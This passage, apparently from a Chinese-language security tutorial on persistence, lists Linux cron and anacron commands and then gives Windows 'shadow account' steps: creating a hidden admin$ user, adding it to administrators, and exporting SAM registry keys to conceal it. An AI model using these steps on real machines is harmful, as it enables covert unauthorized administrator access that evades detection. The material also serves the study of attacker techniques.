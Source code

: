 ```
- 1.服务开启
 service crond start

- 2.编辑计划任务
crontab  -e  -u  用户名

- 3.查看计划任务
crontab  -l  -u  用户名

- 4.删除计划任务：
crontab  -r  -u  用户名

- 相关文件
/var/spool/cron/用户名  #用户定义的设置
/var/log/cron           #cron服务的日志文件
/etc/crontab            #cron服务配置文件：
```

<a class="reference-link" name="anacron"></a>**anacron**

anacron是一个不同于crontab的任务，其只精确到天，用来弥补服务器在宕机下crond调度不周以及缓解计划任务执行过于集中的问题。它需要记录上次执行的时间，并更新到相应的/var/spool/anacron目录下，下次执行的时候会将当前时间和上次记录的时间进行对比，如果满足大于/etc/anacron的配置的天数就会立即执行相应的命令，然后刷新时间。

```
anacron 命令行参数：

-t 配置文件路径
让anacron从指定配置文件中读取配置，常用于普通用户来管理个人任务
-S spooldir
设定新的spool目录来记录任务执行的时间戳，常用于普通用户来管理个人任务
-T
测试配置文件是否正确
-f
强制执行所有的任务，而不管之前的执行日期是否超过轮回天数
-u
将所有任务的执行日期都更新为当前日期，而不真正的执行任务
-s
串行地执行任务，只有前一个任务完成后才开始下一个任务
```



## 0x03 windows权限维持

### <a class="reference-link" name="%E5%BD%B1%E5%AD%90%E8%B4%A6%E6%88%B7"></a>影子账户

创建一个无法用用户本机用户罗列工具显示的用户，并且赋予管理员权限。所有操作需要有管理员权限。同时测试在windows server 2012服务器域环境下影子账户无法直接进行添加。
<li>用’$’创建匿名用户，并归到administratorsa用户组
<pre><code class="hljs cs">net user admin$ Test1 /add
net localgroup administrators admin$ /add
</code></pre>
</li>
<li>导出匿名用户对应的sam目录下的注册表键值
<pre><code class="hljs css">regedt32.exe 打开 HKEY_LOCAL_MACHINESAMSAMDomainsAccountUsers键值，导出Names下用户目录以及对应的16进制目录。注意需要给Administrator用户赋予Sam键值权限，默认是不允许的。
</code></pre>
</li>
[![](https://p0.ssl.qhimg.com/t017ef640eb24d7c175.png)](https://p0.ssl.qhimg.com/t017ef640eb24d7c175.png)
